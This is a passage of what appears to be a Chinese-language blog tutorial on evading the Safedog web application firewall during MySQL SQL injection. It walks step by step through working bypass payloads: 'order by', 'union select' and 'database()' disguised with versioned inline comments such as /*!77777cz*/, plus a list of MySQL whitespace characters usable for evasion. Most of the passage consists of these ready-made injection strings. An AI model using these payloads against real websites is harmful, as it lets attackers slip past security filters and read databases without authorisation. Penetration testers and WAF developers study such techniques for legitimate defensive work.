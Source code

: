   

`lucy' order/*!77777cz*/by 1#`

![]()

##  **  
**

##  **union select (union后跟select会被拦截)**

 **  
**

‍ union select绕过可以直接加内联，因为安全狗看重的是关键字，要绕过只需要中间加些干扰就行。  
但union select中间需要放两个内联才行,之后的都是这样。

`-1' union /*!11440 select*/ 1,2#‍`

![](https://gitee.com/fuli009/images/raw/master/public/20210816090625.png)

  

`-1' union /!77777cz//!77777cz/ select 1,2#`

  

![]()

##  **user()、database() (关键词跟括号会被拦截)**  

 **  
**

以前版本的在 **database()** 中间插空格符已经不管用了

tip:Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%20,%a0  
但可以用内联绕过,直接把()放到内联里，或者经过简单的变形就能过

`-1' union /*!77777cz*//*!77777cz*/ select database/*!77777a*/(),2#`

![](https://gitee.com/fuli009/images/raw/master/public/20210816090626.png)

##  **  
**

##  **select xxx from xxx (select 任意字符 from 后面跟任意字符等也会拦截)**  

 **  
**

这里将select table_name和from information_schema.tables单独进行测试，发现都不会被拦截

但是用select table_name,2 from information_schema.这种组合进行测试时就会被拦截。
